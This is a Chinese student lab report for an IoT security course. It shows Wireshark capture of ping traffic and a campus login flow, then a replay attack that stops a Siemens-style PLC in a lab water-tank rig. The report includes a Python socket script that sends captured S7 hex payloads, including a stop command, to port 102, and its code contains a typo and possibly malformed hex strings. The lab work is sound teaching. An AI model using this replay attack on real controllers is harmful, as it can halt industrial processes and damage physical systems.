








# 物联网安全课程实验报告

<center>实验二</center>


<center>实验名称：“工控实验箱”指令攻击实验</center>

<center>小组成员：梁晓储2110951 周涛2110651</center>

<center>专业：物联网工程</center>

<center>提交日期：2023.10.12</center>

## 一、实验目的

学会使用wireshark分析网络数据包的基本方法，并对工控系统的协议进行安全分析，掌握基本的网络编程能力，编程复现指令攻击实验，对缺乏加密与认证的危害获得直观认识。


## 二、实验内容

1. 学习wireshark软件基础操作
2. 抓包详细分析ping任一网站和pingPLC的流量。必选内容）
3. 简要分析访问任一网页的登录流程。（可选内容，可选择分析从无线网卡开启至成功登录至南开大学校园网的流程）
4. 已知实验箱中PLC使用的协议存在缺乏认证的设计缺陷，请通过流量分析与网络编程，扮演接入工控网络的攻击者，使正常工作的储水罐系统停止工作。观察攻击成功时的现象
5. （可选）登陆审计系统，了解审计系统检测攻击的原理与实现，思考如何攻击能绕过审计？


## 三、实验要求及要点

分组（1-3人）完成实验内容，独自撰写实验报告，回答问题，且报告内容至少包括如下要点。


1. 攻击者如何获得操控PLC有关指令的数据包及其格式？

2. 假设攻击者已接入目标网络且不知道目标PLC地址，如何获得目标PLC的IP地址来发送相关指令？

3. 编程发送网络数据时有哪些需要注意的地方？

4. （可选）攻击者如何能不被审计系统发现？

5. 讨论如何解决本实验中的“指令攻击”？


## 四、实验过程

### 抓包详细分析ping任一网站和pingPLC的流量

Ping `PLC`时：



本机ping PLC的时候会使用ICMP协议向192.168.1.3发送一份请求数据包，随后目标会返回一份数据包，重复四次


Ping `baidu.com`时：






如ping `PLC`时一样，本机先向目标地址发送一传数据包



随后对面也向我们发送一传数据包，然后重复四次


### 简要分析访问任一网页的登录流程

1. 开启无线网卡

2. 连接至南开大学校园网络

3. 打开浏览器,输入登录网址

在浏览器地址栏中输入南开大学校园网的登录页面网址

4. 发起请求

浏览器会向目标网页的服务器发送一个HTTP请求，请求特定网页的内容

5. 服务器响应

服务器接收到浏览器的请求后，会检查用户的请求，然后生成一个HTTP响应，其中包含了所请求网页的内容。

6. 返回网页内容

浏览器接收到服务器的HTTP响应后，会解析网页内容并将其显示在屏幕上。

7. 输入登录凭据并提交到服务器

在登录页面中输入学号和密码，完成输入后，点击登录按钮，以将这些凭据发送到服务器进行验证。

8. 验证登录信息

服务器会验证用户提供的登录凭据是否正确。如果信息正确，用户将被授权访问所请求的受保护页面。

9. 成功登录

一旦服务器验证通过，用户被认为已成功登录。



### 已知实验箱中PLC使用的协议存在缺乏认证的设计缺陷，请通过流量分析与网络编程，扮演接入工控网络的攻击者，使正常工作的储水罐系统停止工作。观察攻击成功时的现象

1. 连接设备与电脑后，使用ping指令检查连接情况，并且确保正确连接

2. 使用STEP-7软件控制发出实验箱运行和停止的指令
3. 使用wireshark抓包，筛选限制条件为`ip.address==192.168.1.3`



4. 找到相应响应，并将响应的payload段的十六进制序列记录下来

   抓取记录响应请求的“PI-Service”数据包

   

   抓取建立通信的数据包

   

   抓取发出停止指令的数据包

   

   

5. 利用抓取的数据包编写网络编程代码发起攻击，攻击成功之后，储水罐系统停止工作。

此次未拍照，但是在课堂上已交给老师检查


实验代码如下

```python
import binascii
import socket
import time

client_socket = socket.socket(socket.AF_INET,sockett.SOCK_STREAM)
aimAddress = ('192.168.1.3',102)
client_socket.connect(aimAddress)

client_socket.settimeout(1)
piserve = '0300001611e0000000300c102010101c2020101c0010a'
setup = '0300001902f08032010000ccc100080000f00009001000103c0'
stop = '0300002102f0803201000000050010000290000900000009505f50524f4752414d'

client_socket.send(binascii.unhexlify(piserve))
time.sleep(1)
print(1)

client_socket.send(binascii.unhexlify(setup))
time.sleep(1)
print(2)

client_socket.send(binascii.unhexlify(stop))
time.sleep(1)
print(3)

client_socket.close()
```


## 五、回答问题


1. 攻击者如何获得操控PLC有关指令的数据包及其格式？

> 1. 开始捕获：
>
> 选中要监听的网络接口，Wireshark将开始捕获该接口上的网络流量。
>
> 
>
> 2. 过滤数据包：
>
> 在Wireshark上设置过滤条件，以仅捕获与PLC相关的数据包。
>
> 
>
> 3. 分析数据包：
>
> 捕获结束后，你可以查看捕获到的数据包列表。双击每个数据包以查看其详细信息，包括源地址、目标地址、协议、数据内容等。
>
> 
>
> 4. 分析协议和格式：
>
> 通过查看Wireshark中捕获到的数据包，分析通信的协议和格式。Wireshark通常会根据协议解析数据包，显示其结构和字段。


2. 假设攻击者已接入目标网络且不知道目标PLC地址，如何获得目标PLC的IP地址来发送相关指令？

> 使用Wireshark捕获网络流量，关注PLC设备与其他设备之间的通信。观察目标网络中的数据包流量，识别与PLC设备有关的通信流量。通过观察通信内容和源/目标IP地址，攻击者能够确定PLC的IP地址。


3. 编程发送网络数据时有哪些需要注意的地方？

> 因为发送三次指令，为了避免三次指令的顺序错误，我们需要在每次发送指令之后增加sleep时间以保证能收到返回信息后才发送下一次指令，这样能确保发送指令的顺序正确。


5. 讨论如何解决本实验中的“指令攻击”？

> 1. 网络监控：
>
> 部署网络监控和入侵检测系统来监视网络流量，及时检测和应对可疑活动。
>
> 
>
> 2. 安全协议：
>
> 使用安全的通信协议，如加密通信，以确保指令在传输过程中不容易被窃取或篡改。
>
> 
>
> 3. 漏洞扫描和渗透测试：
>
> 定期进行漏洞扫描和渗透测试，以发现和纠正潜在的安全问题。
>
> 
>
> 4. 事件响应计划：
>
> 建立有效的事件响应计划，以在发生攻击时快速采取措施，减少损害。
>
> 
>
> 5. 风险评估：
>
> 定期进行风险评估，以确定潜在威胁和弱点，并采取适当的措施来降低风险。


## 六、收获感悟

通过本次实验，复习了在计网和网技中学到的wireshark抓包技能，并且进一步熟练了关于socket编程的能力，对于通信协议有了更加深入的了解。

同时也知道了缺乏加密与认证的危害。对物联网安全的内容了解更加深刻，希望在后面的课程中有更深入的学习。
